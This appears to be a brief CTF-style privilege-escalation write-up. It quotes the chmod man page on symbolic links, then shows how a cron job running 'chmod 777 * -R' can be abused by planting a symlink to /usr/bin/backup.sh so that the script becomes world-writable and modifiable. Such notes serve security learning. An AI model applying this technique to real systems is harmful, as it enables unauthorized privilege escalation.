


____

>chmod never changes the permissions of symbolic links; the chmod system call cannot change their permissions. This is not a problem since the permissions of symbolic links are never used. However, for each symbolic link listed on the command line, chmod changes the permissions of the pointed-to file. In contrast, chmod ignores symbolic links encountered during recursive directory traversals


Cronjob script with,

```bash
chmod 777 * -R;
```

Create symlink

```bash
touch test
ln -s -f /usr/bin/backup.sh test
```



```bash
ls -l /usr/bin/backup.sh
```



and now i can modify the script
